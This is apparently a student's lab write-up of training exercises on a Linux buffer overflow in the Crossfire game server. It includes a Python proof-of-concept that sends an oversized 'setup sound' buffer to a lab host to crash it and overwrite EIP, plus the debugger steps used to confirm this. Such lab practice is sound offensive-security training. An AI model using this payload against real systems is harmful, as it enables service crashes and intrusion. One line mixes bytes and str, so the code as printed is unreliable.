 ### 12.2.1.2 Exercises
#### 1. Log in to your dedicated Linux client using the credentials you received.

![image-20200709174755360](.12.2.1.2.assets/image-20200709174755360.png)

#### 2. On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.

```python
#!/usr/bin/python3
import socket
host = "192.168.216.44"
crash = b"\x41" * 4379
buffer = b"\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print ("[*]Sending evil buffer...")
s.connect((host, 13327))
print (s.recv(1024))
s.send(buffer)
s.close()
print ("[*]Payload Sent !")
```

#### 3. Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.

- On Debian VM:  

   ```bash
   /usr/games/crossfire/bin/crossfire
   edb
   ```

- Crossfire Attached to EDP:
  ![image-20200709175054088](.12.2.1.2.assets/image-20200709175054088.png)
- Ran PoC code, EIP Register overwritten by A's
  ![image-20200709175140687](.12.2.1.2.assets/image-20200709175140687.png)